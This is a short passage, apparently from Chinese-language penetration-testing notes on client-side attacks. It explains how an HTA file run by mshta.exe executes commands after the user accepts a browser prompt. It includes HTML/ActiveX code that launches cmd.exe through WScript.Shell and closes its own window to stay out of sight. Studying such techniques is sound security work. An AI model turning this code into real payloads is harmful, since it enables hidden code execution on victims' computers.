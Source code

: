 如果用户选择打开，由于浏览器的默认沙盒保护机制，会弹出安全提示框

![image-20200514090153140](assets/6.客户端攻击.assets/image-20200514090153140.png)

如果用户继续点击允许，怎会执行cmd.exe，在用户端弹出命令行。

![image-20200514090354967](assets/6.客户端攻击.assets/image-20200514090354967.png)

只要在mshta.exe执行期间，这个窗口都会一直存在，显然我们不想要这种状态。那么在前端网页中加入一个.close()动作，则会达到目的

```html
<html>
	<head>
		<script>
			var c= 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	</head>
	<body>
		<script>
			self.close();
		</script>
	</body>
</html>
```
